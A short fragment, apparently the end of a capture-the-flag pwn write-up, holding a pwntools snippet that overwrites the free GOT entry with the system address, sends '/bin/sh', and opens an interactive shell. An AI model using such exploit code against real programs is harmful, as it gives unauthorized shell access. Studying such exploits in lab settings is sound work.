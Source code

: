 ```python
add(3,0x30,p64(free_got_addr))
p.sendline(b'/bin/sh\x00'+p64(sys_addr))
p.interactive()
```
## End
